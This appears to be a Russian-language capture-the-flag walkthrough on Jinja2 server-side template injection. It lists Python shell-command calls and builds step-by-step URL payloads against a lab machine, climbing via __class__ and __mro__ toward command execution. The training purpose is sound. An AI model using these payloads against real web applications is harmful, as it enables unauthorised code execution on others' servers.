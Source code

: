 ## Задание 5
На данный момент мы знаем:

Приложение уязвимо к SSTI
Точка впрыска
Шаблонизатор
Синтаксис шаблонизатора
Планирование
Давайте сначала спланируем, как мы хотели бы воспользоваться этой уязвимостью.

Поскольку Jinja2 — это шаблонизатор на основе Python, мы рассмотрим способы запуска команд оболочки в Python. 
Быстрый поиск в Google выводит блог , в котором подробно описаны различные способы запуска команд оболочки. Я выделю 
несколько из них ниже:
```commandline
# Method 1
import os
os.system("whoami")

# Method 2
import os
os.popen("whoami").read()

# Method 3
import subprocess
subprocess.Popen("whoami", shell=True, stdout=-1).communicate()
```

Создание доказательства концепции (Generic)
Объединив все эти знания, мы можем создать доказательство концепции (POC).

Следующая полезная нагрузка берет синтаксис, который мы получили из Задачи 4, и оболочки, указанные выше, и 
объединяет их в нечто, что примет шаблонизатор: `http://MACHINE_IP:5000/profile/{% import os %}{{ os.system("whoami") }}`.

Примечание: Jinja2 по сути является подъязыком Python, который не интегрирует оператор импорта , поэтому приведенный 
выше код не работает.

Создание доказательства концепции (Jinja2)

Python позволяет нам вызывать текущий экземпляр класса с помощью .__class__ , мы можем вызвать его для пустой строки:

Полезная нагрузка: `http://MACHINE_IP:5000/profile/{{ ''.__class__ }}`.

Классы в Python имеют атрибут .__mro__ , который позволяет нам подниматься по унаследованному дереву объектов:

Полезная нагрузка: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__ }}`.

Поскольку нам нужен корневой объект, мы можем получить доступ ко второму свойству (первый индекс):

Полезная нагрузка: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1] }}`.
